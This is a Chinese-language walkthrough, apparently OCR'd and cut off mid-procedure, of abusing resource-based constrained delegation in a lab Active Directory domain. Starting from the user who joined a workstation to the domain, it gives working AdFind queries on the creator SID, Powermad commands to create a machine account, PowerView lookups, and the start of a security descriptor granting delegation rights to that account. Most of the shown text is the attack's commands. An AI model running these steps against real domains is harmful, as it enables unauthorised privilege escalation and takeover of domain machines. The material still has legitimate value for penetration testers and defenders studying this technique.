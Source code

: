假如现在已经拿到了把DESKTOP-P34E60A这台机器加入域的用户win10的权限

使用whoami /all查询当前用户的sid

![]()

 **同样可以通过用户的sid查看哪些域机器是通过自己加入到域内的：**

AdFind.exe -b "DC=hiro,DC=com" -f "(&(samAccountType=805306369)(mS-DS-
CreatorSID=S-1-5-21-3105699010-1460039537-418241315-1118))" cn sAMAccountType
objectCategory

![](https://gitee.com/fuli009/images/raw/master/public/20210804091125.png)

 **如果一个机器账号没有mS-DS-CreatorSID，那么他是被域管拉入到域内的**

利用powermad添加机器账户：(https://github.com/Kevin-Robertson/Powermad)

Import-Module .\Powermad.ps1

 **以win10用户创建一个域机器名为win10system，密码为win10**

New-MachineAccount -MachineAccount win10system -Password $(ConvertTo-
SecureString "win10" -AsPlainText -Force)

![](https://gitee.com/fuli009/images/raw/master/public/20210804091126.png)

 **验证是否创建成功：**

net group "domain computers" /do

![]()

 **查询添加机器的SID：**

 **1.域控上查询：**

dsquery computer | dsget computer -dn -sid

![](https://gitee.com/fuli009/images/raw/master/public/20210804091127.png)

或者powershell运行Get-ADComputer win10system

![]()

2. **域机器上查询：** （使用empire下的powerview）

Import-Module .\powerview.ps1

Get-DomainComputer -Identity win10system

![](https://gitee.com/fuli009/images/raw/master/public/20210804091128.png)

然后 **设置win10system到DESKTOP-P34E60A的基于资源的约束委派** （使用empire下的powerview）

`$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
"O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3105699010-1460039537-418241315-1151)"`

`$SDBytes = New-Object byte[] ($SD.BinaryLength)`
